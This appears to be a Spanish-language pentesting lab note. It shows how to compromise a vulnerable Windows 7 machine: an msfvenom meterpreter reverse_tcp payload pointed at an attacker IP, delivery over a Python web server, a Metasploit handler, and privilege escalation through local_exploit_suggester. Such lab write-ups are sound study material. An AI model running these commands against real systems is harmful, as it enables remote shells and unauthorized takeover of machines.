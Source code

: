Vamos a practicar en una maquina Windows 7 vulnerable.

- Vamos a adquirir una sesión de meterpreter en Windows.
	- meterpreter: Payload potente. Se utiliza para realizar tareas de post-explotación en una máquina comprometida.
- Vamos a generar un payloads con la herramienta ==msfvenom==.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f exr -o (NOMBRE_ARCHIVO_CREADO)
```

![](../Imagenes/Pasted%20image%2020250112145720.png)
- Esta la posibilidad que nos tire un error con relación a los bits, para solucionarlo tenemos que modificar el comando.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=(IP_ATACANTE) LPORT=4444 -f exr -o (NOMBRE_ARCHIVO_CREADO)
```
- Agregamos /x64/.
- Ya que lo tenemos, lo vamos a compartir por un servidor creado en Paython.
```
python3 -m http.server 80
```
![[Pasted image 20250112150214.png]]
- Ahora, en la maquina windows ponemos la IP de la maquina atacante en la URL.

![](../Imagenes/Pasted%20image%2020250112150311.png)
- Descargamos el archivo virus.
- Ahora, abrimos ==metasploit== para ponernos en escucha.
- Para abrir el ==metasploit== en la consola usamos el comando `msfconsole`.
- Ya dentro vamos a usar el siguiente comando:
```
use /multi/handler
```
- Que cumple la función de ==nc==.

![](../Imagenes/Pasted%20image%2020250112150659.png)
- Ya con este payloads vamos a configurarlo con el comando `show options` y vamos a rellenar con la información faltante.

![](../Imagenes/Pasted%20image%2020250112150841.png)
- Ahora nos falta modificar el payload como tal, usamos el comando `set PAYLOAD` y ponemos el payload que creamos en msfvenom.
![](../Imagenes/Pasted%20image%2020250112151054.png)
- Ahora hacemos ==run== en el payload y en windows ejecutamos el programa virus.

![](../Imagenes/Pasted%20image%2020250112151222.png)
- Estamos dentro.
- Estando dentro vamos a usar el comando `background`.

![](../Imagenes/Pasted%20image%2020250112151407.png)
- Este comando permite una sesión activa de meterpreter a fondo, permite que el operador regrese al prompt principal de metasploit (msf) para ejecutar otros comandos o iniciar nuevas sesiones.
- ==Metasploit== tiene un payload que automatiza la búsqueda de sploit que nos permite escalar privilegios.
```
search local_exploit_suggester
```

![](../Imagenes/Pasted%20image%2020250112151806.png)
- Lo vamos a seleccionar.
- Lo vamos a configurar.

![](../Imagenes/Pasted%20image%2020250112151850.png)
- Solo nos va a pedir la session activa de windows.
```
sessions -l
```

![](../Imagenes/Pasted%20image%2020250112152004.png)
- Y la seleccionamos.
```
set SESSION (NUMERO_SESSION)
```

![](../Imagenes/Pasted%20image%2020250112152050.png)
- Verificamos.

![](../Imagenes/Pasted%20image%2020250112152118.png)
- Ya esta seleccionado.
- Ejecutamos el comando run.

![](../Imagenes/Pasted%20image%2020250112152149.png)

![](../Imagenes/Pasted%20image%2020250112152247.png)
- Los exploit verdes son los que nos interesan.
- Vamos a explotar el que esta marcado.
- Copiamos el exploit y usamos el comando `use` + el nombre del exploit.
![](../Imagenes/Pasted%20image%2020250112152401.png)
- Lo configuramos.
![](../Imagenes/Pasted%20image%2020250112152437.png)
- Como podemos ver, nos piden 2 cosas:
	- 1.- La session (que ya sabemos que hay 1 en este windows)
	- 2.- LHOST que es la IP atacante.

![](../Imagenes/Pasted%20image%2020250112152623.png)
- Ya configurado, ejecutamos comando ==run==.
- ==SI YA ESTAMOS OCUPANDO EL PUERTO 4444 ANTERIORMENTE ES RECOMENDABLE CAMBIARLO POR CUALQUIER OTRO==.
![](../Imagenes/Pasted%20image%2020250112152831.png)
- Nuevamente tenemos una sesión meterpreter, ahora vamos a ejecutar el comando `shell` para posterior ejecutar el comando `whoami` y ver si somos usuarios principal.
![[Pasted image 20250112152944.png]]
![](../Imagenes/Pasted%20image%2020250112152944.png)
- Lo somos.